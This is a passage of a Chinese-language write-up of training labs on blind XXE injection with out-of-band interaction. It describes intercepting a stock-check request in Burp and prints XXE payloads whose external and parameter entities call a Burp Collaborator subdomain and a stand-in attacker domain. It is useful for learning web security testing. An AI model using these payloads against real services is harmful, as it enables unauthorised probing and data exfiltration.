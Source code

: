 <pre>`&lt;!DOCTYPE foo [ &lt;!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"&gt; %xxe; ]&gt;`</pre>
此XXE有效负载声明一个名为xxe然后使用DTD中的实体。这将导致向攻击者的域发出DNS查找和HTTP请求，从而验证攻击是否成功
————
4、涉及实验：<br/> 实验4：通过XML参数实体进行带外交互的盲XXE


<br/>  

> 
<h3>实验3：带外交互的盲XXE</h3>
信息：
本实验有一个"Check stock"（检查库存）功能，该功能可以解析XML输入，但不显示结果。
可以通过触发与外部域的带外交互来检测隐蔽XXE漏洞。
解决实验：使用外部实体使XML解析器向Burp Collaborator发出DNS查找和HTTP请求
<hr/>
part1:
访问一个产品页面，点击"检查库存"，并使用BP拦截产生的POST请求，并发送到repeater



<hr/>
part2:
XXE注入
BP---BC客户端---“Copy to clipboard”负载复制到剪贴板（客户端窗口保持打开状态）


<pre>`4rwfonp4gqw9xc6pfy7unaght8zynn.burpcollaborator.net`</pre>
在XML声明和stockCheck元素之间插入以下外部实体定义
<pre><code>&lt;!DOCTYPE stockCheck [ &lt;!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"&gt; ]&gt;

我的是：
&lt;!DOCTYPE stockCheck [ &lt;!ENTITY xxe SYSTEM "http://4rwfonp4gqw9xc6pfy7unaght8zynn.burpcollaborator.net"&gt; ]&gt;</code></pre>
将productId编号替换为对外部实体的引用：
<pre>`&amp;xxe;`</pre>



<br/> 转到Collaborator选项卡，刷新看到一些DNS和HTTP交互，这些交互是应用程序由于负载而启动的




---


<br/>  

> 
<h3>实验4：通过XML参数实体进行带外交互的盲XXE</h3>
信息：
本实验有一个“Check stock”功能，该功能可以解析XML输入，但不会显示任何意外值，并阻止包含常规外部实体的请求
解决实验：使用一个参数实体使XML解析器向Burp Collaborator发出DNS查找和HTTP请求
<hr/>
part1:
 访问一个产品页面，点击"检查库存"，并使用BP拦截产生的POST请求，并发送到repeater

